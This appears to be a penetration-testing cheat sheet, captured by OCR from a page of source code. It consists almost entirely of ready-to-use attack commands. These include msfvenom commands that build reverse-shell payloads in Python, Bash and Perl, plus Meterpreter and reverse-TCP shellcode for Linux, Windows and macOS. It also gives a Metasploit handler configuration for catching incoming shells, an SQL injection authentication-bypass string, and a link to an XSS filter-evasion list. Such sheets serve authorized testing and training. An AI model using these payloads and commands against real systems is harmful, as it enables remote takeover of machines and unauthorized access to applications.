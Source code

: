 

	Python
	msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py

	Bash
	msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh

	Perl
	msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl


## Shellcode

	For all shellcode see ‘msfvenom –help-formats’ for information as to valid parameters. Msfvenom will output code that is able to be cut and pasted in this language for your exploits.

	Linux Based Shellcode
	msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>

	Windows Based Shellcode
	msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>

	Mac Based Shellcode
	msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>


	Handlers

	Metasploit handlers can be great at quickly setting up Metasploit to be in a position to receive your incoming shells. Handlers should be in the following format.

	use exploit/multi/handler
	set PAYLOAD <Payload name>
	set LHOST <LHOST value>
	set LPORT <LPORT value>
	set ExitOnSession false
	exploit -j -z

	Once the required values are completed the following command will execute your handler – ‘msfconsole -L -r ‘

# SQL Injection

```
username: tom' or 1=1 LIMIT 1;#
```

# Cross Site Scripting (XSS)
Cheatsheet
https://owasp.org/www-community/xss-filter-evasion-cheatsheet

